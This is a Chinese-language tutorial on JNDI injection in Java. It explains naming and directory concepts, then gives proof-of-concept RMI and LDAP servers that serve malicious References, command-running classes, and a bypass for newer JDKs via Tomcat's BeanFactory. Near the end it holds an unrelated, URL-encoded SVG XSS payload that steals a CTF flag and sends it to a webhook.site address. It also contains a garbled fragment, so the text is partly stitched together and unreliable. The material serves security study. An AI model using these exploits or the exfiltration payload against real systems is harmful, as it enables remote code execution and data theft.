



浅析JNDI注入

- - -

# 浅析JNDI注入

### JNDI是什么

JNDI即Java Naming and Directory Interface 是Java提供的Java命名和目录接口 通过调用JNDI的API可以定位资源和其他程序对象 可访问的现有目录及服务有`JDBC`​、`LDAP`​、`RMI`​、`DNS`​、`NIS`​、`CORBA`​

#### Naming Service

命名服务将名称和对象进行关联 提供通过名称找到对象的操作 如DNS系统将计算机名和IP地址进行关联 又比如 RMI协议中 我们可以通过名称来查找并调用远程对象 在一些命名服务系统中 系统并不是直接将对象存储在系统中 而是保持对象的引用 引用包含了如何访问实际对象的信息

在名称系统中 以下概念比较重要

Bindings 表示一个名称和对应对象的绑定关系

Context 上下文 一个上下文对应着一组名称到对象的绑定关系 我们可以在指定上下文中查找名称对应的对象 比如在文件系统中 一个目录就是一个上下文 可以在该目录中查找文件

References 在实际的名称服务中有些对象可能无法直接存储在系统内 这时便以引用的形式进行存储 引用中包含了获取实际对象所需的信息 比如文件系统中实际根据名称打开的文件是一个整数fd(file descriptor)

#### Directory Service

目录服务是命名服务的扩展 除了提供名称和对象的关联 还允许对象有属性 目录服务中的对象称为目录对象 其提供创建、添加、删除目录对象以及修改目录对象属性等操作 由此 我们不仅可以根据名称来查找(lookup)对象 也可以根据属性值去搜索对象

以下是一些典型的目录服务

​`NIS`​: `Network Information Service，Solaris`​ 系统中用于查找系统相关信息的目录服务；  
​`Active Directory`​: 为 `Windows`​ 域网络设计，包含多个目录服务，比如域名服务、证书服务等；  
其他基于 `LDAP`​ 协议实现的目录服务；

#### SPI

目录服务是中心化网络应用的一个重要组件 使用目录服务可以简化应用中的服务管理验证逻辑 集中存储共享信息 在Java应用中除了以常规方式使用名称服务（DNS解析域名） 另一个常见的用法是使用目录服务作为对象存储的系统 即用目录服务来存储和获取Java对象

比如对于打印机服务，我们可以通过在目录服务中查找打印机，并获得一个打印机对象，基于这个 `Java`​ 对象进行实际的打印操作。

为此，就有了 `JNDI`​，即 `Java`​ 的名称与目录服务接口，应用通过该接口与具体的目录服务进行交互。从设计上，`JNDI`​ 独立于具体的目录服务实现，因此可以针对不同的目录服务提供统一的操作接口。

其架构主要包含两个部分 即Java的应用层接口和SPI

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001912-b81e1c0a-7f1b-1.png)

​`SPI`​ 全称为 `Service Provider Interface`​，即服务供应接口，主要作用是为底层的具体目录服务提供统一接口，从而实现目录服务的可插拔式安装。在 `JDK`​ 中包含了下述内置的目录服务:  
​`RMI`​: `Java Remote Method Invocation`​，`Java`​ 远程方法调用；  
​`LDAP`​: 轻量级目录访问协议；  
​`CORBA`​: `Common Object Request Broker Architecture`​，通用对象请求代理架构，用于 `COS`​ 名称服务(`Common Object Services`​)；

### JNDI的结构

从上面介绍的三个service provider我们可以看出 除了RMI是java特有的远程调用框架 其他两个都是通用的服务和标准 可以脱离Java独立使用 JNDI就是在这个基础上 提供了统一的接口 方便调用各种服务 Java JDK中提供了五个包 来供JNDI功能实现

```plain
javax.naming：主要用于命名操作,包含了访问目录服务所需的类和接口，比如 Context、Bindings、References、lookup 等。
javax.naming.directory：主要用于目录操作，它定义了DirContext接口和InitialDir- Context类；
javax.naming.event：在命名目录服务器中请求事件通知；
javax.naming.ldap：提供LDAP支持；
javax.naming.spi：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过JNDI可以访问相关服务。
```

#### 类介绍

##### InitialContext类

构造方法：

```plain
//构建一个初始上下文。
InitialContext() 
//构造一个初始上下文，并选择不初始化它。
InitialContext(boolean lazy) 
//使用提供的环境构建初始上下文。
InitialContext(Hashtable<?,?> environment)
```

常用方法：

```plain
//将名称绑定到对象。 
bind(Name name, Object obj) 
//枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
list(String name) 
//检索命名对象。
lookup(String name)  
//将名称绑定到对象，覆盖任何现有绑定。
rebind(String name, Object obj) 
//取消绑定命名对象。
unbind(String name)
```

```plain
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class jndi {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/work";
        //在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

##### Reference类

该类表示对在命名/目录系统外部找到的对象的引用

构造方法:

```plain
//为类名为“className”的对象构造一个新的引用。
Reference(String className) 
//为类名为“className”的对象和地址构造一个新引用。 
Reference(String className, RefAddr addr) 
//为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。 
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
//为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。  
Reference(String className, String factory, String factoryLocation)

/*
参数：
className 远程加载时所使用的类名
factory  加载的class中需要实例化类的名称
factoryLocation  提供classes数据的地址可以是file/ftp/http协议
*/
```

常用方法：

```plain
//将地址添加到索引posn的地址列表中。
void add(int posn, RefAddr addr) 
//将地址添加到地址列表的末尾。 
void add(RefAddr addr) 
//从此引用中删除所有地址。  
void clear() 
//检索索引posn上的地址。 
RefAddr get(int posn) 
//检索地址类型为“addrType”的第一个地址。  
RefAddr get(String addrType) 
//检索本参考文献中地址的列举。 
Enumeration<RefAddr> getAll() 
//检索引用引用的对象的类名。 
String getClassName() 
//检索此引用引用的对象的工厂位置。  
String getFactoryClassLocation() 
//检索此引用引用对象的工厂的类名。  
String getFactoryClassName() 
//从地址列表中删除索引posn上的地址。  
Object remove(int posn) 
//检索此引用中的地址数。 
int size() 
//生成此引用的字符串表示形式。
String toString()
```

示例

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);


    }
}
```

这里再调用完Reference之后 又在调用ReferenceWrapper的时候 将前面的Reference对象传进去了 其实故名思意 就是wrap 包装的意思嘛 在我们 查看到Reference的时候 发现并没有是心啊Remote接口也没有继承`UnicastRemoteObject`​ 之前在RMI中了解过 将类注册到Registry的时候需要实现Remote和继承`UnicastRemoteObject`​在这里并没有体现 所以需要进行封装

### JNDI Reference注入

为了在命名服务或者目录服务中绑定Java对象 可以使用Java序列化来传输对象 但是当Java对象较大的时候 不是很好处理 于是JNDI就定义了命名应用(Naming References)这样对象就可以通过绑定一个 可以被命名管理器解码并解析为原始对象的引用 间接存储在命名或目录服务中

引用由Reference类表示 由地址(RefAddress)的有序列表和所引用对象的信息组成 而每个地址包含了如何构造对应对象的信息 包括引用对象的Java类名 以及用于创建对象的ObjectFactory类的名称和位置

Reference可以使用ObjectFactory来构造对象 当使用lookup方法查找对象时 Reference将使用提供的ObjectFactory类的加载地址来 加载ObjectFactory类 ObjectFactory类将构造出需要的对象

所谓的JNDI注入就是控制lookup函数的参数 这样来使客户端访问恶意的RMI或者 LDAP服务来加载恶意的对象 从而执行代码 完成利用

在JNDI服务中通过绑定一个外部远程对象让客户端请求 从而使客户端恶意代码执行的方式 就是利用Reference类实现的 此类表示对存在于命名/目录系统之外的对象的引用

具体则是指如果远程获取RMI服务器上的对象为Reference类或者子类时 则可以从其他服务器上加载class字节码文件来实例化

常用属性

```plain
className 远程加载时所使用的类名
classFactory 加载的class中需要实例化的类的名称
classFactoryLocation 提供classes数据的地址可以是file/ftp/http等协议
```

比如

```plain
Reference reference = new Reference("Exploit","Exploit","http://evilHost/");
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时假设使用rmi协议 客户端通过lookup函数请求上面bind设置的Exploit

```plain
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是Reference对象 客户端在本地CLASSPATH 查找Exploit类 如果没有 则根据设定的Reference属性 到URL [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例 构造方法中的恶意代码会被执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001933-c45cb670-7f1b-1.png)

### RMI 低版本JDK

此处实验的jdk版本是 8u101

服务端代码

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class SERVER {

    public static void main(String args[]) throws Exception {

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest.class", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);

    }

}
```

客户端代码

```plain
import javax.naming.Context;
import javax.naming.InitialContext;

public class CLIENT {

    public static void main(String[] args) throws Exception {

        String uri = "rmi://127.0.0.1:1099/aa";
        Context ctx = new InitialContext();
        ctx.lookup(uri);

    }

}
```

恶意类

```plain
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class ExecTest {
    public ExecTest() throws IOException,InterruptedException{
        String cmd="whoami";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```

首先需要生成恶意类

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110001948-cd750a00-7f1b-1.png)  
​

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002022-e1c8c2bc-7f1b-1.png)  
​

然后使用python3自带的http服务 我们要将生成的恶意class文件放到和server 和 client不同的文件夹下 防止其直接从本地利用

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002030-e66ca72a-7f1b-1.png)  
​

随后启动客户端和服务端

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002037-eacf914c-7f1b-1.png)  
​

成功执行命令

调试一下 主要的方法`lookup`​

调用栈如下

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002047-f0c3c74e-7f1b-1.png)  
​

在第三步的var2 我们看到 这是一个Reference类型的obj

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002054-f4bcf726-7f1b-1.png)  
​

我们从这里开始看起

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002108-fd3ba0fa-7f1b-1.png)  
​​

可以看到在register端有一个decodeObject方法 跟进

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002131-0acfad42-7f1c-1.png)  
​​

调用了namingmanager 的`getObjectFactoryFromReference`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002150-164239b0-7f1c-1.png)

然后和下面ldap一样的 loadclass 然后实例化

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002210-224c4bba-7f1c-1.png)  
​

‍

### LDAP 低版本JDK

LDAP（Lightweight Directory Access Protocol ，轻型目录访问协议）是一种目录服务协议，运行在TCP/IP堆栈之上。LDAP目录服务是由目录数据库和一套访问协议组成的系统，目录服务是一个特殊的数据库，用来保存描述性的、基于属性的详细信息，能进行查询、浏览和搜索，以树状结构组织数据。LDAP目录服务基于客户端-服务器模型，它的功能用于对一个存在目录数据库的访问。 LDAP目录和RMI注册表的区别在于是前者是目录服务，并允许分配存储对象的属性。

在windows上LDAP的实现是 Active Directory 在Linux上的实现就是OpenLDAP 配置了这样程序的服务器就叫LDAP Server

在LDAP中 我们如果想要访问一条记录 目录树的结构如下

```plain
dn ：一条记录的详细位置
dc ：一条记录所属区域    (哪一颗树)
ou ：一条记录所属组织    （哪一个分支）
cn/uid：一条记录的名字/ID   (哪一个苹果名字)
...
LDAP目录树的最顶部就是根，也就是所谓的“基准DN"。
```

假设我们要找寻其中的一条记录 就如同mysql的查询过程一样 我们首先要找到dc （相当于数据库） 然后找ou（相当于表） 最后找到uid（相当于主键id）

那么 当我们用LDAP服务存储恶意Java对象时 我们如果能控制JNDI去访问存储其中的恶意对象 就可以执行命令 能够存储的对象如下

-   Java 序列化
-   JNDI的References
-   Marshalled对象
-   Remote Location

#### test

LDAP\_Server

```plain
package JNDI;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;


public class LDAP_Server {
    public static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] args) {
        String[] args1 = new String[]{"http://127.0.0.1:8000/#evilexp"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig("listen", InetAddress.getByName("127.0.0.1"), port, ServerSocketFactory.getDefault(), SocketFactory.getDefault(), (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args1[0])));
            InMemoryDirectoryServer inMemoryDirectoryServer = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 127.0.0.1" + port);
            inMemoryDirectoryServer.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;

        public OperationInterceptor(URL url) {
            this.codebase = url;
        }


        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase,this.codebase.getRef().replace('.','/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName","foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try{
                sendResult(result,base,e);
            }
            catch (Exception e1){
                e1.printStackTrace();
            }
        }
    }
}
```

LDAP\_Client

```plain
package JNDI;

import javax.naming.InitialContext;

public class LDAP_Client {
    public static void main(String[] args) throws Exception{
        String string = "ldap://127.0.0.1:9999/#evilexp";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

恶意类 evilexp

```plain
public class evil {
    public evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002231-2ef8fa84-7f1c-1.png)  
​

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002242-35309bc8-7f1c-1.png)  
​

在过程中 先调用了一堆的lookup

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002247-384905de-7f1c-1.png)  
​

直至c\_lookup

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002255-3d383a9c-7f1c-1.png)  
​

在此处对传入的类进行解密 跟进decodeObject()

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002302-415a8daa-7f1c-1.png)  
​

此处调用decodeReference() 跟进

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002310-460a1500-7f1c-1.png)  
​

在其中将包装的reference类进行了处理 重新创建了一个reference类并返回

回到c\_lookup

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002315-49158b76-7f1c-1.png)  
​

在下面对 处理后的reference进行了实例化 跟进

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002326-4f4795ac-7f1c-1.png)  
​

getbuilder 然后下面getFactoryClassName

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002336-55ba8944-7f1c-1.png)  
​

然后

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002343-59d63b40-7f1c-1.png)  
​

在其中进行了恶意类的实例化

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002355-60fd9260-7f1c-1.png)  
​  
​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002408-686a374c-7f1c-1.png)  
​

完成利用

先对传入的reference进行了解密 然后再DirectororyManager中进行了实例化

### RMI 高版本JDK

切换jdk版本为 8u341 重新运行上述代码 发现无法执行命令

继续从lookup进入 找一下原因

进入decodeObject

这里加上了一个判断

​​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002418-6ec2ea94-7f1c-1.png)  
​

​

var8不为空 获取的FactoryClassLocation不为空 且 trustURLCodebase为false 就可以丢出一个错误

前两个条件 因为我们需要远程调用恶意类 所以无法绕过 原因就出在最后将`trustURLCodebase`​写成了false

我们可以尝试在Client端 将这个参数改一下

​`System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");`​​ 加一段这个`System.setProperty`​​将`trustURLCodebase`​​设置为true

或者是 我们将`getFactoryClassLocation()`​设置为空 也就是在远程返回的Reference对象中 不能指定Factory的codebase

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002426-73087b6e-7f1c-1.png)  
​

然后可以进入到`getObjectInstance`​​之中

这里的factory为空 无法执行

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002432-76e94362-7f1c-1.png)  
​

‍

我们在构造reference的时候 可以传参factory 这个过程写在server中

​`getObjectFactoryFromReference`​的过程我们在之前低版本的jdk中分析过

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002441-7c163598-7f1c-1.png)  
​

首先在本地搜索是否存在相关类 若没有 再从远程获取 最后在return一个`ObjectFactory`​类型的实例 需要是无参构造函数

那么 比较合乎 逻辑的思路是 在服务端上 很难会有一个合适的恶意类来辅助执行命令 那么 就需要我们从客户端本地来寻找一个合适的类来执行命令

那么 我们的恶意类需要满足什么条件呢

首先 我们最后的实例是一个 `ObjectFactory`​ 类型的 所以 我们找的恶意类中需要有`ObjectFactory`​的接口 其次 需要满足newInstance 有无参构造函数 最后 所执行的getObjectInstance方法能有办法执行 命令 -+

我5

们最终找到Tomcat的依赖类 `org.apache.naming.factory.BeanFactory`​

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002448-807877e0-7f1c-1.png)  
​

查看一下其中的源码

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002453-837f1520-7f1c-1.png)  
​

​  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231110002501-8804c8c4-7f1c-1.png)  
​

存在invoke方法 很有命令执行的可能

```plain
%3C?xml%20version=%221.0%22%20standalone=%22no%22?%3E%0A%3C!DOCTYPE%20svg%20PUBLIC%20%22-//W3C//DTD%20SVG%201.1//EN%22%20%22http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd%22%3E%0A%0A%3Csvg%20version=%221.1%22%20baseProfile=%22full%22%20xmlns=%22http://www.w3.org/2000/svg%22%3E%0A%20%20%3Cpolygon%20id=%22triangle%22%20points=%220,0%200,50%2050,0%22%20fill=%22#009900%22%20stroke=%22#004400%22/%3E%0A%20%20%3Cscript%20type=%22text/javascript%22%20src=%22https://x0.nz/WTHS%22%3E%0Avar%20xhr%20=%20new%20XMLHttpRequest();%0Axhr.open(%22GET%22,%20%22https://hallmark.web.actf.co/flag%22);%0Axhr.send();%0Avar%20xh%20=%20new%20XMLHttpRequest();%0Axh.open(%22POST%22,%20%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bxhr.response);%0A%0Axh.send(xhr.response);%0Afetch('https://hallmark.web.actf.co/flag').then(res%20=%3E%20res.text()).then(res%20=%3E%20fetch(%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bres))%0A%3C/script%3E%0A%3C/svg%3E
```

## 参考文章

[https://tttang.com/archive/1611/](https://tttang.com/archive/1611/)

[https://goodapple.top/archives/696](https://goodapple.top/archives/696)
